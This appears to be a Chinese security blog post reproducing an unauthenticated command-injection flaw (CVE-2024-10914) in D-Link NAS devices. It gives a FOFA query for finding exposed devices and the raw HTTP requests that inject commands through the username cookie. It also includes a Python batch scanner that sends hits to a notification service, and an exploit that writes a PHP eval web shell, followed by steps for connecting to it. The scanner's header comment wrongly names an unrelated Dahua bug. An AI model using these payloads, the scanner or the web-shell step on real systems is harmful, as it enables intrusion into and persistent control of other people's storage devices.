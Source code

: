 #  【深度复现】D-Link NAS设备 sc_mgr.cgi 未授权RCE漏洞(CVE-2024-10914)   
原创 红岸基地赵小龙  暗影网安实验室   2024-11-21 01:00  
  
## 产品简介  
  
  
D.LinK NASQ 设备是一种基于网络的存储解决方案，作为网络存储设备，旨在为企业提供大容量的存储空间，并通过网络连接实现数据的访问和管理。这种设备不仅满足了企业对数据存储的需求，还提供了高效的数据共享和访问功能，提升了企业数据管理的效率和灵活性。广泛应用于各种企业场景，如文档存储、图片和视频存储、数据库备份等。特别是在需要高效数据共享和访问的企业环境中，如设计工作室、广告公司、医疗机构等，D-Link NAS设备更是发挥了其强大的功能和优势  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZwvp69e8tHbjvllPa5yxSOhj4LapyA8l3ziaEhtYsYFKayhFgLq2H0Yqw/640?wx_fmt=png&from=appmsg "")  
  
  
## 漏洞概述  
  
  
D-LinK NAS设备 /cgi-bin/sc mgrcgi?cmd=Sc Get nf0 接口存在远程命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。  
  
PS：这段时间，连出两个D-Link相关漏洞  
## FOFA  
  
```
body="/cgi-bin/login_mgr.cgi"  &&  body="cmd=cgi_get_ssl_info"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZwiasP0MweiaXDUyTwnMVaeJib4mPLSicnFGxjibcAqAITWc8YfyGmjaX7ibkg/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
```
GET /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: username=mopfdfsewo'& id & echo 'mopfdfsewo;
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZw7K7dxRKU9kCnYg5ibKiczTBiaLP5CzuoypO2Wd7SLrfbdSmy0dPYvfUyw/640?wx_fmt=png&from=appmsg "")  
  
## 深度复现  
  
这里，我们使用两种红岸的检测工具，第一代和第三代的  
  
第一代，1、信息收集  
  
第二利用poc进行批量检测  
```
# .py
#大华智能物联综合管理平台 任意文件读取漏洞复现(QVD-2023-45063)
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from requests.exceptions import Timeout
import os
import urllib.parse
import urllib.request

def sc_send(text, desp='', key='[SENDKEY]'):
    postdata = urllib.parse.urlencode({'text': text, 'desp': desp}).encode('utf-8')
    urlserver = f'https://sctapi.ftqq.com/{key}.send'
    req = urllib.request.Request(urlserver, data=postdata, method='POST')
    with urllib.request.urlopen(req) as response:
        result = response.read().decode('utf-8')
    return result

key = ""

def scan_D_Link_NAS_sc_mgr_rce(url, proxies, headers, append_to_output):
    proxies = {
        'http': 'http://127.0.0.1:8080',
        'https': 'http://127.0.0.1:8080'
    }
    if url.endswith("/"):
        path = "cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info"
    else:
        path = "/cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info"

    if not url.startswith('http://') and not url.startswith('https://'):
        url = 'http://' + url

    encodetext = url + path
    append_to_output("===================================================================", "green")
    append_to_output(f"扫描目标: {url}", "yellow")
    headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0",
    "Accept": "*/*",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "close",
    "Cookie": "username=mopfdfsewo'& id & echo 'mopfdfsewo;"
  }

    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        req1 = requests.get(encodetext, headers=headers, verify=False, timeout=20, proxies=proxies)

        if req1.status_code == 200 and 'uid' in req1.text:
            append_to_output(f"[+] {url} 存在D-Link NAS设备 sc_mgr.cgi 未授权RCE漏洞！！！！", "red")
            ret = sc_send('发现D-Link NAS设备 sc_mgr.cgi 未授权RCE漏洞', f"漏洞连接: {url}\r\n漏洞类型: RCE漏洞", key)
        else:
            append_to_output(f"[-] {url} 不存在D-Link NAS设备 sc_mgr.cgi 未授权RCE漏洞", "green")
    except Timeout:
        append_to_output(f"[!] 请求超时，跳过URL: {url}", "yellow")
    except Exception as e:
        if 'HTTPSConnectionPool' in str(e) or 'Burp Suite Professional' in str(e):
            append_to_output(f"[-] {url} 证书校验错误或者证书被拒绝", "yellow")
        else:
            append_to_output(str(e), "yellow")

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZw3B5C8E1FtrZYibpnLc6cskhMWU0MDUhonibXOMM3hXic6LZZdLI6jic4Dw/640?wx_fmt=png&from=appmsg "")  
  
第三代检测脚本  
  
可以直接输入fofa语句导入资产  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZwONTS9Aaa18KiakK29rS7kPXTMBV2pWNnMRAFWzGFOYVIukcyaI8z8Hg/640?wx_fmt=png&from=appmsg "")  
  
导入完成，可以选择对应的POC  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZw7Ppic5WsVyzG6P6mCNqyfsmgcLnzyFONaq1k03ybuBm7QuBssTJKJ6Q/640?wx_fmt=png&from=appmsg "")  
  
选择对应代理  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZwaT7DuwKGVzs4SCNhMZ5bDT9jJ7iavWjP1qU86WpAbnBZjPbd1sWfbicg/640?wx_fmt=png&from=appmsg "")  
  
进行批量检测  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZw1S9VnSLR1ztZ914fiaTCP18oL76RpMZmekdGzrM2tPJV14deOpzo53w/640?wx_fmt=png&from=appmsg "")  
  
然后随便挑一个进行下一步  
  
由于分号不让写入只能通过ascii转码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZwI7gDkEys97S8oDPBbibOwWiaAn1waS4bU3rzNt3HuoJ0PdF16HgefpYQ/640?wx_fmt=png&from=appmsg "")  
```
EXP:
GET /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: username=mopfdfsewo'& echo -e '<?php @eval($_POST[cmd])\x3B?>' > 1.php & echo 'mopfdfsewo;
```  
  
  
蚁剑进行连接  
  
路径为：http://IP/cgi-bin/1.php  
  
由于我们进行了转码所以需要进行编码连接  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZwC27KXia5LL1egBu7X36GfywoyNVI7LPj14acqWqXBrlt34XBDRXVvkA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uqTbCG8qKr6aD5WHdpXaoZwoKMNaMU9nL9MrtWZALQIrcoSBdvagYWWmawBnve0G4Wnw83dYK18UQ/640?wx_fmt=png&from=appmsg "")  
  
连接成功！  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**免责声明**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  
大家对于网络安全感兴趣的话，不妨来加一下我们的老师，我们会定期在给大家分享  
**渗透****工具**和  
**实战****文****章**，还会有  
**渗透公开课**可以试听！  
  
**扫码添加，提升自己！**  
  
  
**👇👇👇**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2uoNRzR6lbX9iaiaEdO8Vp5RFgXLxq8zXS3H1ZtHLWrsdM8MX2noahMPrPYPuBeMnxK4m5uFMIfVA5cw/640?wx_fmt=png&from=appmsg "")  
  
后续一些打击犯罪文章会在下方公众号发布  
  
  
